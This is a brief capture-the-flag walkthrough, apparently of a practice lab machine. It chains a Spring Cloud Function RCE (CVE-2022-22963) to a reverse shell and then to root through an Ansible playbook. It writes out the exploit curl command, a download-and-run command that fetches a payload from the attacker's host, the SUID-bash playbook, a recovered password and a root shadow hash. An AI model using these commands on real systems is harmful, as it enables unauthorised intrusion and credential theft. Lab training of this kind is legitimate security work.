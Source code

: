 I will re writeup soon

IP: 10.10.11.204

nmap 

rustscan -u 5000 -a 10.10.11.204 -- -sC -sV -A -oN nmap.txt

```PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2<SNIP>Db8=
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLX<SNIP>VPc/yY3Km7Sg1GzTyoGUxvy+EIsg=
|   256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICZzUvDL0INOklR7AH+iFw+uX+nkJtcw7V+1AsMO9P7p
8080/tcp open  nagios-nsca syn-ack Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

sudo nmap -T5 --top-ports 1000 -sU --open 10.10.11.204. No port UDP open

TCP 8080

![image](https://user-images.githubusercontent.com/84217196/224526330-1c54ef36-3745-437b-b389-bee319227ca7.png)


the page have serveral function, but only upload file is working. The file type is image. after upload we se it's vuln LFI or Directory traversal

![image](https://user-images.githubusercontent.com/84217196/224526338-d6fa1f89-b07e-4a3c-a6bf-7bdd13f6503e.png)


http://10.10.11.204:8080/show_image?img=simple-2.png

![image](https://user-images.githubusercontent.com/84217196/224526346-574a6bbd-83b2-49a1-9242-dbb7b64a5614.png)


Enumeration

we know user frank, phil

curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v

CVE-2022-22963: Remote code execution in Spring Cloud Function by malicious Spring Expression
me2nuk/CVE-2022-22963: Spring Cloud Function Vulnerable Application / CVE-2022-22963 (github.com)

multi/http/spring_cloud_function_spel_injection

It's work, so we have RCE. can upload payload revershell via wget/curl then execute it via bash.

User

curl http://10.10.14.17:8001/payload.sh -o /tmp/payload.sh 
bash /tmp/payload.sh


![image](https://user-images.githubusercontent.com/84217196/224526357-5f530535-18fd-4202-a2b1-8792e9888240.png)

![image](https://user-images.githubusercontent.com/84217196/224526363-9945fc4f-6ed9-4678-96d3-71755c0b6ef7.png)




DocPhillovestoInject123

![image](https://user-images.githubusercontent.com/84217196/224526367-b0247cd5-f54e-4656-a4eb-6335caa32d39.png)


ansible playbook | GTFOBins

pe.yml
```
- hosts: localhost
  tasks:
    - name: PE
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
```

![image](https://user-images.githubusercontent.com/84217196/224526373-e0b787c8-fa9e-4304-b902-703523161cd6.png)



Ansible Playbook Weaponization – Cyber Security Architect | Red/Blue Teaming | Exploit/Malware Analysis (rioasmara.com)

cat /etc/shadow

root:$6$KeHoGfvAPeHOqplu$tC/4gh419crGM6.btFzCazMPFH0gaX.x/Qp.PJZCoizg4wYcl48wtOGA3lwxNjooq9MDzJZJvzav7V37p9aMT1:19381:0:99999:7:::

![image](https://user-images.githubusercontent.com/84217196/224526321-aa192aee-9b94-4a0b-8284-a500f7366857.png)
